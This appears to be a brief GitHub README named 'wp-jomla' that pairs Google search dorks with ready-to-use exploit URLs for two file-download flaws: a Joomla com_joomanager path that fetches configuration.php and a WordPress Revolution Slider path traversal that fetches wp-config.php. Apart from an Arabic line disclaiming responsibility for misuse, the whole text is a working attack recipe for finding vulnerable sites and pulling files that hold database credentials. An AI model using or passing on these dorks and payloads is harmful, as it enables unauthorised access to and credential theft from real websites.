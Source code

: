 # wp-jomla
Joomla

Dork: Joomla Config File Download Vulnerability: inurl:'index.php?option=com_joomanager 

Exploit: /index.php?option=com_joomanager&controller=details&task=download&path=configuration.php

==================================================================================================
WordPress

Dork: WordPress Arbitrary File Download vulnerability inurl:/wp-content/plugins/revslider/

Exploit: /wp-admin/admin-ajax.php?action=revslider_show_image&img=../wp-config.php


#انا لااتحمل مسؤليتك لسوء استخدامك لهذه الاداة

